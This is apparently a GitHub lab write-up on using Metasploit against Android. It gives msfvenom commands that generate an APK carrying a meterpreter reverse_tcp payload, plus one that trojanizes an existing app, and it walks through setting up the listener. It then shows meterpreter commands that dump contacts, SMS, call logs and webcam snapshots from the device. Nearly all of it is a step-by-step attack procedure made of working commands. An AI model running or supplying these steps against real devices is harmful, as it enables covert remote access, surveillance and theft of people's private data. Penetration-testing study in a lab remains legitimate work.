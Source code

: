 # Metasploit For Android

## DESCRIPTION

The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing. It is owned by Boston, Massachusetts-based security company Rapid7.

Its best-known sub-project is the open source Metasploit Framework, a tool for developing and executing exploit code against a remote target machine.

## PREREQUISITES

1. Metasploit

2. adb(Android debug bridge)

3. Genymotion/Android device

Exploitation to get an android reverse shell
Connect to the remote target device(genymotion/android) using adb

![1]([Images/Documentations/Metasploit_for_Android/1.jpg](https://github.com/v1ns3c/Write-ups/blob/efa9b7c48ef35f5b35c27813c16c9c08a0e2a4ed/Images/Documentations/Metasploit_for_Android/1.jpg))

1) Steps to generate an apk with the reverse_tcp payload
Go to ‘opt/metasploit-framework/bin’ and enter the following command to generate an apk

$ ./msfvenom -p android/meterpreter/reverse_tcp LHOST=<localhost ip> LPORT=4444 -o <destination path/test.apk>

!img
!img

Install the apk generated on the target device(genymotion/android)

!img
!img

Go to ‘opt/metasploit-framework/bin’ and follow the steps to get the reverse shell

$ ./msfconsole

!img

$ use exploit/multi/handler

!img


$ set payload android/meterpreter/reverse_tcp

!img

$ show options

!img

$ set LHOST <localhost ip>

!img

$ exploit ‘or’ run

!img

Click on the test.apk application in the remote target device(genymotion/android) to get the reverse shell

!img

$ help ‘or’ ?

!img

$ dump_contacts

!img

$ dump_sms

!img

$ dump_calllog

!img

Go to the ‘metasploit-framework’ folder to get the dumps

!img

$ cat <calllog.txt>

!img

$ cat <contacts.txt>

!img

$ cat <sms.txt>

!img

Commands for webcam

$ webcam_list

$ webcam_snap 1 ‘or’ 2

!img

!img

2) Steps to inject reverse_tcp payload in an existing app(diva-beta.apk)

Go to ‘opt/metasploit-framework/bin’ and enter the following command

$ ./msfvenom -x <apk path/apkname.apk> -p android/meterpreter/reverse_tcp LHOST=<localhost ip> LPORT=4444 -o <destination path/test.apk>

!img

Install the app in the device and repeat the msfconsole steps as shown earlier to get the reverse shell.

## Extra Commands for metasploit

$ show exploits- (Get all exploits till date)

$ search <any random keyword>

(ex- search android- to get all exploits related to android)

$ info <exploit>

Thanks for reading!





